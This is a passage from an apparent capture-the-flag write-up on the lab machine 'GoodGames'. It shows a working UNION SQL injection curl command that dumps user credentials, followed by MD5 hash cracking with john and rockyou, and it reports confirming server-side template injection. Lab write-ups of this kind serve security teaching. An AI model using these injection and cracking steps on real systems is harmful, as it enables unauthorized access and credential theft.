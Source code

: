 If instead of `tr` I use `awk`, I get the complete information, I can check that the hash type is **MD5**. But before I try to break it, I check its length, `wc` tells me that it has 33 characters, which means that I must suppress the line break, because a MD5 hash has 32. Once I do this, I can use `john` or even **[Crackstation](https://crackstation.net/){:target="_blank"}** to get the password.

```bash
curl -s -X POST http://goodgames.htb/login -d "email=oldboy%40oldb.htb' union select 1,2,3,group_concat(name,0x3a,email,0x3a,password) from user-- -&password=oldboy123" | grep Welcome | sed 's/^ *//' | awk 'NF{print $NF}' | awk '{print $1}' FS='<'

hashid 2b22337f218b2d82dfc3b6f77e7cb8ec
hash-identifier

cat hash | wc -c
cat hash | tr -d '\n' | sponge hash
cat hash | wc -c

john --list=formats
john -w:/usr/share/wordlists/rockyou.txt hash --format=Raw-MD5
john -show hash
```

<br/>
<img src="{{ site.img_path }}/goodgames_writeup/GoodGames_35.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/goodgames_writeup/GoodGames_36.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/goodgames_writeup/GoodGames_37.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

I try to access with the credentials I just obtained to the subdomain and I succeed. Immediately I see that I have access to the **Settings** panel, to see if I can update data to be reflected on the web page, I modify the **username** and when I save the changes my changes are seen. I verify that the server is vulenerable to **[SSTI](https://portswigger.net/web-security/server-side-template-injection){:target="_blank"}**, to do this I resort to **[Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection){:target="_blank"}** to test basic injections and I succeed!

<br/>
<img src="{{ site.img_path }}/goodgames_writeup/GoodGames_38.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/goodgames_writeup/GoodGames_39.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/goodgames_writeup/GoodGames_40.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/goodgames_writeup/GoodGames_41.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/goodgames_writeup/GoodGames_42.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>
